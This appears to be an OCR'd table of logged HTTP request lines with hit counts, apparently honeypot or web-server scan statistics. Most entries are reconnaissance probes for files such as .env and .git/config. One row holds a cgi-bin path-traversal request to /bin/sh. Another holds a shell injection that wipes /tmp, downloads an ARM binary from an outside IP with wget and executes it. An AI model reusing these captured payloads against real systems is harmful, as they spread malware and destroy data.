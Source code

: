 |   0 |                   333 | GET / HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                         |
|   1 |                   317 | GET /cgi-bin/luci/;stok=/locale HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                               |
|   2 |                    35 | GET / HTTP/1.0                                                                                                                                                                                                                                                                                                                                                                                                         |
|   3 |                    31 | GET /.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                     |
|   4 |                    17 | GET /favicon.ico HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                              |
|   5 |                    14 | GET /hello HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                    |
|   6 |                    12 | POST / HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                        |
|   7 |                    12 | POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/sh HTTP/1.1                                                                                                                                                                                                                                                                                                                                        |
|   8 |                     9 | GET /shell?cd+/tmp;rm+-rf+*;wget+ 103.241.65.218/selfreps/telnet.arm5;chmod+777+/tmp/telnet.arm5;sh+/tmp/telnet.arm5 HTTP/1.1                                                                                                                                                                                                                                                                                          |
|   9 |                     8 | GET /robots.txt HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                               |
|  10 |                     8 | SSH-2.0-Go                                                                                                                                                                                                                                                                                                                                                                                                             |
|  11 |                     8 | GET /redirectLoginGet.json?timeStamp=1715076379286 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                            |
|  12 |                     8 | GET /.git/config HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                              |